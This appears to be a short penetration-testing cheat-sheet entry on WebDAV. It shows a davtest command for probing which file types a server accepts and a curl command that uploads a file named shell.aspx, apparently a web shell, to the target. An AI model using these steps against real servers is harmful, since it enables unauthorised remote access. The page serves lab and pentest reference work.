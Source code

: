 # Webdav

## davtest&#x20;

If we want to know the type of file we can upload to a webserver, try this Kali tool.

```bash
# Test possible file extensions to upload
davtest --url http://$IP
```

## Upload a file with curl

```bash
curl -T '/home/kali/shell.aspx' 'http://$IP/' -u $user:$pass # if auth needed
```
